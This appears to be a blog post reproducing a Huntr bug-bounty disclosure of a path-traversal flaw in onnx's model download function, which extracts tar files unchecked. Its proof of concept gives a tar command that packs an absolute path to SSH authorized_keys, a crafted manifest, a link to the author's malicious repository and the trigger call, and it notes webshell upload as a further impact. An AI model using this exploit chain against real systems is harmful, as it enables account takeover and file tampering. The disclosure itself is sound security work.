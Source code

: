 ```yaml
---
layout: post
title:  "Huntr: Arbitrary File Overwrite in onnx"
date:  2024-04-07 10:31:06 +0800
categories: file-overwrite
---
```


## Name

> Huntr: Arbitrary File Overwrite in onnx

## Weakness

> CWE-22: Path Traversal

## Severity

> High (8.8)

## Description

The [download_model_with_test_data](https://onnx.ai/onnx/api/hub.html#download-model-with-test-data) function does not adequately prevent malicious tar files from performing path traversal attacks. This can allow the downloading of malicious tar files that can overwrite any file. This leads directly leads to a high impact regarding the integrity of files. An attacker could also abuse this to impact the availability, by deleting system files, personal files, or application files. Remote code execution is also possible through various means.

The vulnerable function is exposed through the `download_model_with_test_data` function, which is further used in the onnx framework, as well as can be imported easily.

This code snippet shows how the `download_model_with_test_data` function extracts a tar file downloaded from internet without performing any security checks.

```
def download_model_with_test_data(
    model: str,
    repo: str = "onnx/models:main", # change to attacker's repo
    opset: Optional[int] = None,
    force_reload: bool = False,
    silent: bool = False, # set silent to True
) -> Optional[str]:
    selected_model = get_model_info(model, repo, opset)

    local_model_with_data_path_arr = selected_model.metadata[
        "model_with_data_path"
    ].split("/")

    model_with_data_sha = selected_model.metadata["model_with_data_sha"]
    ...
    local_model_with_data_path = join(
        _ONNX_HUB_DIR, os.sep.join(local_model_with_data_path_arr)
    )

    if force_reload or not os.path.exists(local_model_with_data_path):
        os.makedirs(os.path.dirname(local_model_with_data_path), exist_ok=True)
        lfs_url = _get_base_url(repo, True)
        print(f"Downloading {model} to local path {local_model_with_data_path}")
        _download_file( # download model from github repository
            lfs_url + selected_model.metadata["model_with_data_path"],
            local_model_with_data_path,
        )
    else:
        print(f"Using cached {model} model from {local_model_with_data_path}")

    with open(local_model_with_data_path, "rb") as f:
        model_with_data_bytes = f.read()

    with tarfile.open(local_model_with_data_path) as model_with_data_zipped:
        # FIXME: Avoid index manipulation with magic numbers
        local_model_with_data_dir_path = local_model_with_data_path[
            0 : len(local_model_with_data_path) - 7
        ]
        model_with_data_zipped.extractall(local_model_with_data_dir_path) # just extract without any security checks

    return model_with_data_path
```

The Python documentation explains us that tarfiles may also have absolute filenames starting with / which could overwite files in system.

```
Warning: Never extract archives from untrusted sources without prior inspection. 
It is possible that files are created outside of path, 
e.g. members that have absolute filenames starting with "/" or filenames with two dots "..".
```

## Proof of Concept

An attacker can create a malicous tar file using following command:

```
tar --absolute-names -cvf hack.tar.gz /home/kali/.ssh/authorized_keys
```

Then, the attacker will upload the `hack.tar.gz` as onnx model to his own github repository. Besides, create file `ONNX_HUB_MANIFEST.json` with tar file path(`model_with_data_path`) and sha256 value(`model_with_data_sha`).

Create malicious model repo:

```
git lfs track "*.gz"
git add .
git commit -m 'add gz lfs models'
git push
```

the `ONNX_HUB_MANIFEST.json` metadata file example:

```
[
    {
        "model": "MNIST",
        "model_path": "validated/mnist-8.onnx",
        "onnx_version": "1.3",
        "opset_version": 8,
        "metadata": {
            "model_sha": "",
            "model_bytes": 26454,
            "tags": [
                "vision",
                "classification",
                "mnist"
            ],
            "io_ports": {
                "inputs": [
                    {
                        "name": "Input3",
                        "shape": [
                            1,
                            1,
                            28,
                            28
                        ],
                        "type": "tensor(float)"
                    }
                ],
                "outputs": [
                    {
                        "name": "Plus214_Output_0",
                        "shape": [
                            1,
                            10
                        ],
                        "type": "tensor(float)"
                    }
                ]
            },
            "model_with_data_path": "validated/hack.tar.gz",
            "model_with_data_sha": "786bb632aab30bb574f7f2bab991c56c7707f8d224845f85a16bce32e7980cac",
            "model_with_data_bytes": 26751
        }
    }
]
```
I have create one malicous repo for testing: [https://github.com/sunriseXu/onnx](https://github.com/sunriseXu/onnx)

If anyone now downloads model from online github repository, and `download_model_with_test_data` will extract the malicous tar file and overwrite files specified in tarfile by absolute path silently.

```
from onnx import ModelProto, hub
hub.download_model_with_test_data("mnist",repo="sunriseXu/onnx",force_reload=True,silent=True)
```

```
$ cat /home/kali/.ssh/authorized_keys
ssh-rsa xxx hacker@test.com
```

tested in google colab: [https://colab.research.google.com/drive/1m1iJcfp-dETTr013HyYaYJsdetBa-7YA?usp=sharing](https://colab.research.google.com/drive/1m1iJcfp-dETTr013HyYaYJsdetBa-7YA?usp=sharing)

![poc1](https://raw.githubusercontent.com/sunriseXu/onnx/main/img/poc.png)

![poc2](https://raw.githubusercontent.com/sunriseXu/onnx/main/img/poc2.png)

## Impact

This vulnerability can have severe consequences. This section will highlight some tangible impact.

SSH Access
On servers that have SSH enabled, an attacker may be able to inject their own public RSA key into the authorized_keys file, leading to remote code execution.

Web Servers
On servers hosting web servers, various vulnerabilities can be exploited. On PHP or JSP server, remote code execution may be possible via uploading a webshell. On other servers an HTML file can be uploaded to achieve Cross-site Scripting (XSS)


## Reference

[https://huntr.com/bounties/5d7e5752-085c-4e93-af0d-e25f05a27b89](https://huntr.com/bounties/5d7e5752-085c-4e93-af0d-e25f05a27b89)

## Occurrences

[https://github.com/onnx/onnx/blob/4128a09009aa67622c6308c82fe4199813a71682/onnx/hub.py#L369](https://github.com/onnx/onnx/blob/4128a09009aa67622c6308c82fe4199813a71682/onnx/hub.py#L369)
